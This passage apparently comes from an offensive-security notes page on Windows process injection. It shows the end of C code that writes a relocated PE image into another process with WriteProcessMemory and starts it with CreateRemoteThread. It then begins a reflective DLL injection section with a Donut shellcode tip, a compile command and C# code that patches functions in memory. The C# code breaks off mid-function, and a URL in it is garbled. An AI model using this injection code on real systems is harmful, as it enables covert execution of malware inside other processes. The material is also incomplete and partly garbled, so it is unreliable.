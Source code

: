 ```C#
				*patchedAddress += deltaImageBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

	// Write the relocated localImage into the target process
	WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL);

	// Start the injected PE inside the target process
	CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);

	return 0;
}
```

### Reflective DLL Injection
- Loads a DLL from memory.
* Includes creating the PE structure in memory since DLLs can't be loaded from memory normally with `LoadLibrary`.

#### C\#
- Use [Donut](https://github.com/S4ntiagoP/donut/tree/syscalls) to create shellcode out of PE files.
- Compile with `csc.exe /target:library /out:MyClass.dll MyClass.cs`
```C#
using System;
using System.Runtime.InteropServices;
using System.Collections.Generic;
using System.IO;

namespace ShellcodeInject
{
    public class Program
    {


        // Exitpatcher function stolen from From Nettitudes RunPE -> https://gith:w!
        ub.com/nettitude/RunPE 

        internal const uint PAGE_EXECUTE_READWRITE = 0x40;

        [DllImport("kernel32.dll")]
        internal static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpFlOldProtect);

        internal static byte[] PatchFunction(string dllName, string funcName, byte[] patchBytes)
        {

            var moduleHandle = GetModuleHandle(dllName);
            var pFunc = GetProcAddress(moduleHandle, funcName);

            var originalBytes = new byte[patchBytes.Length];
            Marshal.Copy(pFunc, originalBytes, 0, patchBytes.Length);


            var result = VirtualProtect(pFunc, (UIntPtr)patchBytes.Length, PAGE_EXECUTE_READWRITE, out var oldProtect);
            if (!result)
            {
```
